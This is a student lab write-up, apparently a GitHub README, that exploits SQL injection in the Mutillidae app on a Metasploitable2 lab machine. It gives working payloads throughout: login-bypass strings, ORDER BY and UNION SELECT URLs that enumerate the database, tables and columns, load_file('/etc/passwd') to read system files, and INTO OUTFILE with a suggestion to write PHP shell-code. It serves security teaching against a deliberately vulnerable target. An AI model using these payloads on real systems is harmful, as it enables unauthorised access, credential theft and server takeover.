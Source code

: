 # sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2
![image](https://github.com/Prasanth9025/sqlinjection/assets/118343686/83b2fd89-bb1e-4ea5-b5bd-767b7b2ff1c0)

Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser.
![image](https://github.com/Prasanth9025/sqlinjection/assets/118343686/18b801a1-1da4-47e0-a0b3-61ad4b46a331)

Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![WhatsApp Image 2023-11-09 at 14 20 06](https://github.com/Prasanth9025/sqlinjection/assets/118343686/04c723aa-e06b-4929-b406-06d6270f329b)

Click on the menu Login/Register and register for an account

![image](https://github.com/Prasanth9025/sqlinjection/assets/118343686/6bfa4010-0c88-4a8a-8184-cf57937f5814)

Click on the link “Please register here”
![WhatsApp Image 2023-11-09 at 14 20 06 1](https://github.com/Prasanth9025/sqlinjection/assets/118343686/66c98b2c-2151-41b5-87f8-cf62c67d6419)
Click on “Create Account” to display the following page:
![WhatsApp Image 2023-11-09 at 14 20 05 2](https://github.com/Prasanth9025/sqlinjection/assets/118343686/3434a8c1-4154-45f8-a086-68b8ad9480b3)
The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.

![WhatsApp Image 2023-11-09 at 14 20 06 3](https://github.com/Prasanth9025/sqlinjection/assets/118343686/3cb0db70-8464-417b-883a-ac8493dfde9e)

Click “Login”. The logged in page will show as below:
![image](https://github.com/Prasanth9025/sqlinjection/assets/118343686/b9e117ab-e57b-496a-a723-f10dc1c320a0)
##Bypassing login field

The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.

![WhatsApp Image 2023-11-09 at 14 20 05 4](https://github.com/Prasanth9025/sqlinjection/assets/118343686/93ad769e-ddc7-491f-8c58-3c1866f11027)

Click the login button and you will see it enter into the administrator page. 
![image](https://github.com/Prasanth9025/sqlinjection/assets/118343686/e98b9168-b90b-47d6-9af1-45afcb34e1f7)

## Union-based SQL injection

UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info”

After logging out, Now choose the menu as shown below:

![WhatsApp Image 2023-11-09 at 14 20 06 5](https://github.com/Prasanth9025/sqlinjection/assets/118343686/ac94e83e-5140-4c3a-8c62-58518515807a)
![WhatsApp Image 2023-11-09 at 14 20 06  6](https://github.com/Prasanth9025/sqlinjection/assets/118343686/2fbde3d7-ef83-4254-a8a2-d2734eb6e61a)

From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.
![image](https://github.com/Prasanth9025/sqlinjection/assets/118343686/e482d2c6-79d4-425f-a751-64455f8dbec3)

Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Prasanth9025/sqlinjection/assets/118343686/83ec9142-7624-42f7-b418-e2e1b9e41c9b)

After adding the order by 6 into the existing url , the following error statement will be obtained:
![image](https://github.com/Prasanth9025/sqlinjection/assets/118343686/e83bf0f7-21c3-4df0-8562-ebb651c29289)

When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![image](https://github.com/Prasanth9025/sqlinjection/assets/118343686/0456c798-ff51-4210-9f38-b2a1711df910)

As it is having 5 columns the query worked fine and it provides the correct result

![image](https://github.com/Prasanth9025/sqlinjection/assets/118343686/fcb705c3-4cd5-4d6e-954d-514ac381b558)
Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![image](https://github.com/Prasanth9025/sqlinjection/assets/118343686/36de9e23-def6-4437-ae49-33e11766ddb3)
Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Prasanth9025/sqlinjection/assets/118343686/50e9895e-6a65-4d04-9a28-88f3a50b1e13)
The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Prasanth9025/sqlinjection/assets/118343686/03e30bf7-4732-41d3-8353-1bf7b302b140)

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![image](https://github.com/Prasanth9025/sqlinjection/assets/118343686/05b84bea-f41d-4052-8bff-affd3c916ec4)

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).
http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Prasanth9025/sqlinjection/assets/118343686/a08bd123-bd1a-457d-82c4-66d73f1b2a43)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
